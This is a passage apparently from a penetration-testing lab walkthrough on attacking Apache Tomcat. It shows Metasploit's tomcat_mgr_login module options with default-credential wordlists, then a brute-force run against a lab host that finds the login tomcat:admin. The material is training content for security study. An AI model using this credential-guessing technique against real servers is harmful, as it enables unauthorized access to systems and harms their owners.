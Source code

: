 ```shell-session
   STOP_ON_SUCCESS   true                                                                            yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                                          no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST             web01.inlanefreight.local                                                       no        HTTP server virtual host
```

We hit `run` and get a hit for the credential pair `tomcat:admin`.

Attacking Tomcat

```shell-session
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
